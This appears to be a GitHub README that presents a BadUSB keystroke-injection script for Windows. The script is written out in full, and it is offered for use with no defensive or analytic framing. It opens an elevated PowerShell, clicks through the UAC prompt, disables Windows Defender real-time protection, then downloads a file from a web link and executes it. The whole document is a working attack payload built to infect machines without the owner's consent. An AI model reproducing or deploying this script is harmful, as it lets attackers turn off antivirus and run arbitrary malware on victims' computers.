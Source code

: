 # badusb-download-execute-disable-windows-defender
This is a Bad USB script which will download and execute any file from the web which is accessible from a direct download link and it will also disable Windows Defender Real Time Protection.

Here is the BadUSB script:
```
DELAY 1000
GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 1200
STRING $down = New-Object System.Net.WebClient; $url = 'URL_GOES_HERE'; $file = 'FILE_NAME_OUTPUT'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file); exit;
```
